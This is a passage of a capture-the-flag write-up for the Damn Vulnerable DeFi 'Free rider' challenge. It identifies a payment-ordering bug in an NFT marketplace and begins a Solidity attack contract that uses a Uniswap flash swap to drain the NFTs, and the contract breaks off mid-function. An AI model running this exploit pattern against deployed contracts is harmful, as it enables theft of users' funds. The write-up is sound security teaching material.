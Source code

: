 ```javascript
    });
```

- - -
## CTF name: Damn Vulnerable DeFi
### Challenge name: Free rider 
### Challenge description:
    A new marketplace of Damn Valuable NFTs has been released! There's been an initial mint of 6 NFTs, which are available for sale in the marketplace. Each one at 15 ETH.

    A buyer has shared with you a secret alpha: the marketplace is vulnerable and all tokens can be taken. Yet the buyer doesn't know how to do it. So it's offering a payout of 45 ETH for whoever is willing to take the NFTs out and send them their way.

    You want to build some rep with this buyer, so you've agreed with the plan.

    Sadly you only have 0.5 ETH in balance. If only there was a place where you could get free ETH, at least for an instant.

- - -

In this challenge, we have to take 6 NFT from marketplace with only 0.5 ether. In addition, NFT is 15 ether worth. The vulnerability is in the `_buyOne()` function. Here is the line that is vulnerable.

```
    token.safeTransferFrom(token.ownerOf(tokenId), msg.sender, tokenId);
    payable(token.ownerOf(tokenId)).sendValue(priceToPay);
```

If someone buys NFT, the marketplace transfer the NFT to buyer first. Then send value to token owner, which is now buyer. If only we could get 15 ETH, we can take all NFTs from marketplace. Here is where flash swap is needed. We can get 15 ETH for an instant from __Uniswap__. In `swap()` function in Uniswap pair, we are allow to send data to call `uniswapV2Call()`. We just need to create `uniswapV2Call()` function that buys NFT and return funds to Uniswap pair contract. Here is attack contract.

```solidity
contract AttackerFreeRider is IUniswapV2Callee {

    IUniswapV2Pair public immutable pair;
    FreeRiderNFTMarketplace public immutable marketplace;
    FreeRiderBuyer public immutable partner;
    address payable public  owner;
    IERC721 public immutable nft;
    IWETH public immutable weth;

    uint256[] public tokenIds = [0, 1, 2, 3, 4, 5];

    constructor(address _pair, address _nft, address _marketplace, address _partner, address _weth) {
        pair = IUniswapV2Pair(_pair);
        nft = IERC721(_nft);
        marketplace = FreeRiderNFTMarketplace(payable(_marketplace));
        partner = FreeRiderBuyer(_partner);
        weth = IWETH(_weth);
        owner = payable(msg.sender);
    }

    function attackMarketPlace(uint256 amount) public payable {
        // pair의 swap을 실행시키면 line 33의 uniswapV2Call function 이 실행됨
        pair.swap(amount, 0, address(this), new bytes(1));
    }

    function uniswapV2Call(address sender, uint amount0, uint amount1, bytes calldata data) external override {
```